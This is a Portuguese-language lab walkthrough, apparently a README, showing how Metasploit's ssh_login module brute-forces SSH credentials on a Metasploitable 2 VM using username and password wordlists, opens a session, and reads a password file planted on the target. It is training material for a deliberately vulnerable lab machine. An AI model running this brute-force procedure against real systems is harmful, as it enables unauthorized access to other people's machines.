# Explorando falha no SSH

> Laboratório: Falha no SSH


---


## 1) VM — Imagem da máquina vulnerável



*Captura da máquina Metasploitable 2 utilizada no laboratório.*


## 2) Iniciando o Metasploit


**Comando usado:**
```
msfconsole
```

## 3) Pesquisando vulnerabilidade no metasploit


**Comando usado:**
```
search ssh_login
```

## 4) Selecionando vulnerabilidade


**Comando usado:**
```
use auxiliary/scanner/ssh/ssh_login
```

## 5) Informações da vulnerabilidade


**Comando usado:**
```
info
```

## 6) Selecionando Host para atacar



**Comando usado:**
```
set rhosts 192.168.56.103
```

## 7) Escolhendo wordlist com senha e usuario


**Comando usado:**
```
set USER_FILE /home/kali/usuario.txt
set PASS_FILE /home/kali/senha.txt
```

## 8) Iniciando exploit e obtendo acesso com brute force


**Comando usado:**
```
exploit
```

## 9) Vendo sessões abertas


**Comando usado:**
```
sessions
```

## 10) Selecionando sessão


**Comando usado:**
```
sessions 1
```

## 11) Acesso a VM


## 12) Criando um arquivo de senha na VM vulnerável


## 13) Vendo arquivo de senha pela máquina invasora


**Comando usado:**
```
ls
```

## 14) Lendo arquivo pela máquina invasora


**Comando usado:**
```
cat senha_secreta.txt
```

